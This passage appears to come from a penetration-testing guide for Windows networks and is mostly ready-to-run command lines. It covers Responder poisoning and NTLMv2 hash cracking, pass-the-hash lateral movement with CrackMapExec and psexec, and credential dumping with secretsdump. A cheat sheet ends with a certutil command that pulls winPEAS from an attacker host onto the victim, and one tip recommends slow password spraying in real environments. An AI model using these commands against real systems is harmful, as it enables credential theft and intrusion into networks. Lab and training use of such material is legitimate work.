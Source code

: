 11) LLMNR/NBT-NS poisoning and cracking (optional lab technique)
```bash
# Run Responder (choose correct interface)
sudo responder -I tun0 -rdwv

# When you capture NTLMv2 hashes, crack with hashcat or john
hashcat -m 5600 captured_hashes.txt /usr/share/wordlists/rockyou.txt --force
# or
john --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt captured_hashes.txt
```

12) Lateral movement example
```bash
# With new creds/hashes, enumerate more targets
cme smb 10.10.10.0/24 -u USER -p 'NewPass123!' --shares
# Or pass-the-hash
cme smb 10.10.10.0/24 -u USER -H NTHASH --shares
# Gain shell on new target
python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes :NTHASH USER@10.10.10.20
```

## Practical tips
- Identify OS and patch level early (systeminfo, Nmap banner/version data).
- SMB is your friend: check shares, null sessions, and MS17-010 quickly.
- WinRM often yields a stable PowerShell foothold if you have creds.
- Prefer pass-the-hash when possible; you don’t need the cleartext password.
- Keep a credential notebook: users, local vs domain, hashes, where they worked.
- Check 32-bit vs 64-bit before running tools; use matching binaries.
- For privesc, start with winPEAS, then validate specific avenues (services, registry, privileges).
- Be mindful of noisy actions (e.g., brute-force). In real environments, use slow spray and timing.
- If secretsdump fails remotely, try enabling RemoteRegistry or dump hives locally and extract offline.
- Some Nmap NSE scripts (smb-vuln-ms17-010) may be missing/deprecated in your distro; use alternatives (CME checks, Metasploit aux, manual fingerprints).

## Minimal cheat sheet (one-screen flow)
```bash
# 1) Scan
sudo nmap -p- -sC -sV -O -T4 $TARGET

# 2) SMB enum
smbclient -N -L //$TARGET/
enum4linux-ng -A $TARGET
sudo nmap -p445 --script smb-vuln-ms17-010 $TARGET

# 3) RDP/WinRM
sudo nmap -p3389,5985,5986 -sC -sV $TARGET

# 4) Creds check
cme smb $TARGET -u $USER -p $PASS --shares
cme smb $TARGET -u $USER -H NTHASH --shares

# 5) Remote exec
python3 $(locate psexec.py | head -n1) $USER:$PASS@$TARGET
# or
evil-winrm -i $TARGET -u $USER -p $PASS

# 6) Dump creds
python3 $(locate secretsdump.py | head -n1) $USER:$PASS@$TARGET

# 7) Privesc (on victim)
whoami /priv
systeminfo
certutil -urlcache -f http://$ATTACKER_IP/winPEASx64.exe C:\Windows\Temp\winpeas.exe
```